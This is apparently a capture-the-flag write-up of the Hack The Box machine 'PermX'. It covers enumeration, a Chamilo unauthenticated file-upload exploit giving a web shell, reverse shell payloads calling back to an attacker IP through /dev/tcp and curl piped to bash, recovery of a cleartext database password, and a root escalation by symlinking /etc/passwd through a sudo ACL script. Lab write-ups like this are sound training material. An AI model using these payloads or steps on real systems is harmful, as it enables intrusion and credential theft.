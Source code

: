 # PermX

**OS:** Linux

**Difficulty:** Easy 

## Enumeration:
I'll start with a port scan.

```bash
nmap -sC -sV -p 22,80 10.129.246.18

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://permx.htb
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I'll add "permx.htb" to my hosts file and take a look at the page.

![permx.htb_landing_page](images/img_00000.png)

I found nothing of value on this site.

I'll search for subdomains.
```bash
sudo ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://permx.htb/ -H "Host: FUZZ.permx.htb" -fc 302

www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 44ms]
lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 73ms]
```


I added both "lms.permx.htb" and "wwww.permx.htb" to my hosts file. I'll take a look at lms.permx.htb.

![chamilo_login](images/img_00001.png)

We can see Chamilo is used. And inspecting the page reveals a possible user on the target system.

```bash
mailto:admin@permx.htb
```

I'll use feroxbuster to furhter enumerate this web server.
```bash
feroxbuster -u http://lms.permx.htb/  -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -d 1

301      GET        9l       28w      322c http://lms.permx.htb/documentation => http://lms.permx.htb/documentation/

```

The documentation directory reveals the use of Chamilo 1.11. We can find a POC for an exploit of the version 1.11.24 [here](https://www.exploit-db.com/exploits/52083).

## Initial foothold:

We can see the vulnerability is an unauthenticated file upload. I'll use this POC for my initial foothold.

```bash
python3 52083.py http://lms.permx.htb/ pwd
[+] File uploaded successfully!
[+] Access the shell at: http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php?cmd=
[+] Command Output:
/var/www/chamilo/main/inc/lib/javascript/bigupload/files
```

We can see it is working. I'll get a reverse shell on the system.
```bash
# Payload
bash -i >& /dev/tcp/10.10.14.113/6666 0>&1
```


This did not work. So I'll try the same payload but in another way. I'll write a simple reverse shell script, start a web server and try a file less execution.
```bash
# Payload:
curl http://10.10.14.113/rv.sh|bash

# Server:
python3 -m http.server 80
```

This worked.
```bash
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ whoami
<ilo/main/inc/lib/javascript/bigupload/files$ whoami                     
www-data
```

## Lateral movement:

We can see another user in the /etc/passwd file called mtz. 
```bash
cat /etc/passwd|grep sh

root:x:0:0:root:/root:/bin/bash
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
mtz:x:1000:1000:mtz:/home/mtz:/bin/bash
```

I'll need to find a way to gain access to that account. I'll start by looking for clear-text credentials. Possible files that contain that kind of information are config files. I'll look up where are the configuration files for chamilo. Turn out they are in /app/config.

I found a database password in the  configuration.php.
```bash
cat configuration.php|grep password

$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
```

I'll use ssh to connect as mtz on the target.
```bash
ssh mtz@permx.htb
03F6lY3uXAP2bkW8

mtz@permx:~$ whoami
mtz
```

## Privilege escalation:

Running "sudo -l" reveals we can run "/opt/acl.sh" as the root user.
```bash
sudo -l

    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

The script:
```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

We can see the script expects 3 arguments user permissions and target file. This scripts amis to set permissions to a given file in the /home/mtz directory.
I can bypass the restrictions by making a symlink to a file. I'll change the permissions to the /etc/passwd file to read/write and remove the password for the root.

```bash
ln -s /etc/passwd passwd
nano passwd # remove the x on the root entry
sudo /opt/acl.sh mtz rw /home/mtz/passwd
su -


root@permx:~# whoami 
root
```

And that's it.